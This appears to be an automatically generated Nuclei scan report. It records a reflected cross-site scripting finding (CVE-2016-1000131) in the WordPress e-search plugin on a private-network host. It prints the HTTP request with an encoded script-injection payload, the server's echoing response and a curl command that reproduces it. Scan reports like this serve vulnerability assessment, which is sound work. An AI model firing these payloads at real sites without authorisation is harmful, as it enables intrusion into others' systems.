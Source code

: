 ### e-search <= 1.0 - Reflected Cross-Site Scripting (XSS) via title_az.php (CVE-2016-1000131) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2016-1000131**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/e-search/tmpl/title_az.php?title_az=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:11 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | e-search <= 1.0 - Reflected Cross-Site Scripting (XSS) via title_az.php |
| Authors | daffainfo |
| Tags | cve, cve2016, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | Reflected XSS in wordpress plugin e-search v1.0 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2016-1000131](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1000131) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/e-search/tmpl/title_az.php?title_az=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 245
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/e-search/tmpl/title_az.php?title_az=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2016-1000131
- http://www.vapidlabs.com/wp/wp_advisory.php?v=393
- https://wordpress.org/plugins/e-search
- http://www.securityfocus.com/bid/93867

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/e-search/tmpl/title_az.php?title_az=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)